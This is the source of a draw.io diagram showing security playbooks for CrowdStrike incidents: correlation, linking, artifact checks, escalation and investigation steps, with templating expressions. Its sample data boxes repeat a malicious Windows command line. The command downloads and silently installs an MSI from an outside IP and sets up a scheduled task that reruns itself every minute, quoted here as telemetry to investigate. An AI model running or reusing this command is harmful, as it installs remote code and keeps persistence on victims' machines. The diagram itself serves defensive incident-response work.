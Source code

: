 <mxfile version="22.0.4" type="github">
  <diagram name="Page-1" id="wvW3ehxdYdoYtSaxa3fH">
    <mxGraphModel dx="1500" dy="820" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="NKeEgVbL9whLPdXC6YmX-3" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-1" target="NKeEgVbL9whLPdXC6YmX-2">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-1" value="Crowdstrike Event Correlation" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="150" y="1650" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-2" target="NKeEgVbL9whLPdXC6YmX-4">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-2" value="Triggers&lt;br&gt;- On Event Ingestion" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="350" y="1650" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-9" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-4" target="NKeEgVbL9whLPdXC6YmX-22">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="760" y="1680" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-4" value="Correlation" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="550" y="1650" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-11" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-8" target="NKeEgVbL9whLPdXC6YmX-10">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-16" value="True" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-11">
          <mxGeometry x="0.151" y="-3" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-14" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-8" target="NKeEgVbL9whLPdXC6YmX-13">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-17" value="False" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-14">
          <mxGeometry x="0.042" y="-4" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-8" value="Any Incident Linked?" style="rhombus;whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="950" y="1630" width="100" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-10" value="Added to the Related Incident" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1209" y="1580" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-19" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-13" target="NKeEgVbL9whLPdXC6YmX-18">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-13" value="Check Artifacts" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1209" y="1730" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-21" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-18" target="NKeEgVbL9whLPdXC6YmX-20">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-18" value="Escalate to Incident" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1409" y="1730" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-20" value="Passdown" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1609" y="1730" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-23" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-22" target="NKeEgVbL9whLPdXC6YmX-8">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-22" value="Link Incident with Same ID&lt;br&gt;Command - Link to Related Event Incident" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="740" y="1650" width="150" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-24" value="" style="endArrow=none;html=1;rounded=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="820" y="1650" as="sourcePoint" />
            <mxPoint x="820" y="1580" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-28" value="&lt;h1&gt;API Response&lt;/h1&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;{&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; &quot;Escalate Incidents&quot;: [&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; &amp;nbsp; &quot;20230425-1573&quot;&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; ]&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;}&lt;/p&gt;" style="text;html=1;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;strokeColor=default;fillColor=default;" vertex="1" parent="1">
          <mxGeometry x="730" y="1420" width="180" height="160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-33" value="" style="endArrow=none;html=1;rounded=0;entryX=0.504;entryY=0.98;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-8">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1000" y="1780" as="sourcePoint" />
            <mxPoint x="1010.86" y="1730" as="targetPoint" />
            <Array as="points">
              <mxPoint x="1000" y="1750" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-45" value="&lt;h1&gt;Condition Type - Input&lt;/h1&gt;&lt;p&gt;{% set returnData = PlaybookData | jsonpath(&#39;$.[&quot;Link Incident with Same ID&quot;].returnData&#39;) | string_to_json_object%}&lt;/p&gt;&lt;p&gt;&lt;br&gt;&lt;/p&gt;&lt;p&gt;{{returnData|jsonpath(&#39;$.[&quot;Escalate to Incidents&quot;]&#39;)|to_list|length &amp;gt; 0}}&lt;/p&gt;" style="text;html=1;strokeColor=default;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="905" y="1780" width="190" height="240" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-48" value="&lt;h1&gt;Data Formatter&lt;br&gt;&lt;/h1&gt;&lt;p&gt;{{{&quot;EscalateTo&quot;: PlaybookData | jsonpath(&#39;$.[&quot;Check Artifacts&quot;].returnData.Data[*].IncidentNo&#39;)|to_list}}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=default;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1300" y="1890" width="360" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-49" value="" style="endArrow=none;html=1;rounded=0;entryX=0.592;entryY=1.016;entryDx=0;entryDy=0;entryPerimeter=0;exitX=0.473;exitY=0;exitDx=0;exitDy=0;exitPerimeter=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-48">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1410" y="1839.04" as="sourcePoint" />
            <mxPoint x="1470.04" y="1790" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-50" value="" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="140" y="1350" width="1600" height="740" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-52" value="&lt;font style=&quot;font-size: 24px;&quot;&gt;Nested Playbook For CrowdStrike&lt;/font&gt;" style="text;html=1;strokeColor=#6c8ebf;fillColor=#dae8fc;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="170" y="1370" width="320" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-56" value="&lt;font style=&quot;font-size: 24px;&quot;&gt;Incident Playbooks - Cross Stack Investigation&lt;br&gt;&lt;/font&gt;" style="text;html=1;strokeColor=#6c8ebf;fillColor=#dae8fc;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="80" y="110" width="320" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-57" value="" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="90" y="60" width="8410" height="1160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-60" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-58" target="NKeEgVbL9whLPdXC6YmX-59">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-72" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-58" target="NKeEgVbL9whLPdXC6YmX-71">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-58" value="CrowdStrike Data Ingestion" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="120" y="370" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-66" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-59" target="NKeEgVbL9whLPdXC6YmX-65">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-59" value="Investigation-Initial Findings&lt;br&gt;Commands - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="320" y="370" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-61" value="" style="endArrow=none;html=1;rounded=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-62" target="NKeEgVbL9whLPdXC6YmX-59">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="409.99" y="510.0" as="sourcePoint" />
            <mxPoint x="409.71" y="438.2" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-62" value="&lt;h1&gt;The Actual Data&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Host Name&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Source IP&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Command Line&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Event Time&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Data Source&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ]&lt;/p&gt;&lt;p&gt;&amp;nbsp; }&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="285" y="500" width="250" height="160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-68" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-65" target="NKeEgVbL9whLPdXC6YmX-67">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-65" value="Investigation-Initial Finding Behaviors&lt;br style=&quot;border-color: var(--border-color);&quot;&gt;Commands - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="570" y="370" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-67" value="Investigation-Summary&lt;br&gt;Commands - Add Investigation Details" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="830" y="370" width="140" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-76" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-71" target="NKeEgVbL9whLPdXC6YmX-75">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-71" value="Get Command Lines&lt;br&gt;Data Formatter" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="320" y="270" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-73" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-71" target="NKeEgVbL9whLPdXC6YmX-74">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="410" y="260" as="sourcePoint" />
            <mxPoint x="460" y="210" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-74" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;{{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[*].EventData.behaviors[*].cmdline&#39;)|unique}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="420" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-78" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-75" target="NKeEgVbL9whLPdXC6YmX-77">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-75" value="Extract File Info&lt;br&gt;Commands - RSA_ExtractFileInfo" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="570" y="270" width="190" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-91" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-77" target="NKeEgVbL9whLPdXC6YmX-86">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-77" value="Crowdstrike Get File Hash&lt;br&gt;Commands - RSA_CrowdstrikeGetFileHash" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="830" y="270" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-79" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;{{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[*].EventData.behaviors[*].cmdline&#39;)|unique}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="650" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-80" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-79">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="660" y="270" as="sourcePoint" />
            <mxPoint x="770" y="240" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-81" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;amp;lt;nul &amp;amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="420" y="140" width="200" height="100" as="geometry" />
        </mxCell>
